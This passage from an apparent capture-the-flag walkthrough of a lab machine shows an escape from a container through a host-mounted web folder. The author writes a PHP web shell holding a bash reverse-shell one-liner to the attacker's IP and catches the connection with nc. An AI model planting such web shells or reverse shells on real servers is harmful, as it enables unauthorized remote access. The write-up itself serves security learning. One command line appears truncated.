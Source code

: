 
A directory called `/files` is the only thing owned by root. In it, is `lcars.zip`:

```

www-data@a7018bfdc454:/var/www/html/files$ ls
lcars.zip

```

That was on the HTTPS website above, so it’s interesting it’s here.

`mount` shows that it’s actually a folder from the host being mapped into the container:

```

www-data@a7018bfdc454:/var/www/html/files$ mount -l | grep files
/dev/mapper/enterprise--vg-root on /var/www/html/files type ext4 (rw,relatime,errors=remount-ro,data=ordered)

```

If I write to it, that shows up on the HTTP site:

```

www-data@a7018bfdc454:/var/www/html$ echo "is this the same site" > files/0xdf>

```

From my VM:

```

oxdf@parrot$ curl -s -k https://10.10.10.61/files/0xdf.txt
is this the same site

```

### Shell

I’ll write a reverse shell into a PHP file:

```

www-data@a7018bfdc454:/var/www/html$ echo -e "<?php\nsystem(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'\");\n?>"                  
<?php
system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'");
?>
www-data@a7018bfdc454:/var/www/html$ echo -e "<?php\nsystem(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'\");\n?>" > files/0xdf.php 

```

Now on visiting `https://10.10.10.61/files/0xdf.php`, I get a shell at `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.61] 54496
bash: cannot set terminal process group (1507): Inappropriate ioctl for device
bash: no job control in this shell
www-data@enterprise:/var/www/html/files$ 

```
